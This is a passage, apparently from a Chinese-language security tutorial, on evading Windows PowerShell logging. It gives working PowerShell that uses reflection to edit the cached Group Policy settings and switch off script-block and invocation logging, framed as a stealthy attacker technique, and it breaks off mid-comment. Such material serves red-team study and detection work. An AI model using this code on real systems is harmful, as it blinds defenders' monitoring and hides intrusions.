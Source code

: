         - 事件 ID 4103 由于产生的日志数量非常巨大，有时在实际环境中可能被管理员降低处理优先级甚至完全禁用，以避免存储和性能问题。
- 规避方法:
    
    尽管存在后面将讨论的 ETW 函数补丁技术，但它们可能并不总是实用或最佳选择。作为替代方案，攻击者可以针对这些 PowerShell 日志记录提供者进行更细致的操作，以逐步限制其可见性，同时可能不像其他技术那样明显或“嘈杂”。
    
    1. **组策略接管 (Group Policy Takeover - 修改本地缓存的GPO设置)**:
        
        - 脚本块日志记录和模块日志记录等功能通常通过组策略启用，具体路径为：`Administrative Templates -> Windows Components -> Windows PowerShell`。
        - 在 PowerShell 会话中，系统程序集（如 `System.Management.Automation.dll`）以与当前用户相同的权限上下文加载。这意味着攻击者（如果权限足够）可能与存储或缓存 GPO 设置的程序集部分具有相同的访问权限。
        - 通过 PowerShell 反射，攻击者可以尝试获取并修改 PowerShell 内部用于存储这些组策略设置的缓存字典。
        - **高层步骤**:
            1. 通过反射获取 `System.Management.Automation.Utils` 类中的静态字段 `cachedGroupPolicySettings`（这是一个存储 GPO 设置的字典）。
            2. 修改该字典中与 PowerShell 日志记录相关的键值，例如将 `EnableScriptBlockLogging` 设置为 `0` (或 `$false`) 来禁用脚本块日志。
            3. 类似地，修改 `EnableScriptBlockInvocationLogging` (与模块日志/流水线执行日志相关) 为 `0`。
        - **PowerShell 代码示例**:
            
            PowerShell
            
            ```
            # 获取 GPO 设置缓存字典
            $GroupPolicySettingsField = [Ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static')
            $GroupPolicySettingsCache = $GroupPolicySettingsField.GetValue($null)
            
            # 禁用脚本块日志 (对应 Event ID 4104)
            if ($GroupPolicySettingsCache.ContainsKey('HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging')) {
                $GroupPolicySettingsCache['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging']['EnableScriptBlockLogging'] = 0
            } elseif ($GroupPolicySettingsCache.ContainsKey('HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging')) { 
                 $GroupPolicySettingsCache['HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging']['EnableScriptBlockLogging'] = 0
            }
            
            
            # 禁用模块日志/调用日志 (对应 Event ID 4103 的详细部分)
            if ($GroupPolicySettingsCache.ContainsKey('HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging')) {
                $GroupPolicySettingsCache['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0
            } elseif ($GroupPolicySettingsCache.ContainsKey('HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging')) {
                 $GroupPolicySettingsCache['HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0
            }
            # 注意: 上述键名可能需要实际的 GPO 结构进行调整。
            # 更直接的方式是修改 PowerShell 引擎内部控制这些日志的实际布尔开关，如果能通过反射访问到的话。
            # 原文示例:
            # $GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0